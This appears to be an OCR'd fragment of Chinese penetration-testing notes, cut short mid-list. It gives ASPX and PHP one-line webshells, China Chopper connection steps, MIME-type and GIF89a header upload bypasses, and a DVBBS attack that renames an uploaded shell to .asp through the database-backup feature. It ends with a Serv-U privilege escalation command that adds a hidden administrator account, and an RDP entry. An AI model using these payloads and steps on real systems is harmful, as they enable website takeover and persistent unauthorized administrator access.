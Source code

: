 &lt;%@ Page Language="Jscript"%&gt;&lt;%Response.Write\(eval\(Request.Item\["z"\],"unsafe"\)\);%&gt;



\*PHP一句话：

&lt;?php eval\($\_POST\[cmd\]\);?&gt;



菜刀：chopper

右键--添加--上传webshell地址，连接口令：

15.绕过mime检测：

burp抓包--content-Type:image/gif

16.文件幻数：检测文件头：

GIF89a换行

&lt;一句话木马&gt;

17.查看源码：allow=no 改为yes

dvbbs:

1.前台：发表话题

上传文件：上传类型：图片

c.asp改为c.jpg

记下上传路径UploadFile/2018-8/20188128856526.jpg

2.后台：数据库备份

当前数据库路径：图片路径

备份目录：databackup

数据名称：姓名拼音首字母.asp

访问：http://www.dvbbs.com/databackup/hyq.asp

pass:kongqi

三。提权

前提：serv-u:密码改为空：默认密码是：123，重启服务



登录webshell:

http://www.dvbbs.com/databackup/hyq.asp

提权相关：serv-u提权---命令：修改两处：kongqi$ 改为你的姓名拼音首字母

cmd /c net user kongqi$ 123456 /add & net localgroup administrators kongqi$ /add

漏洞利用：

1.远程桌面：rdp:3389 mstsc:
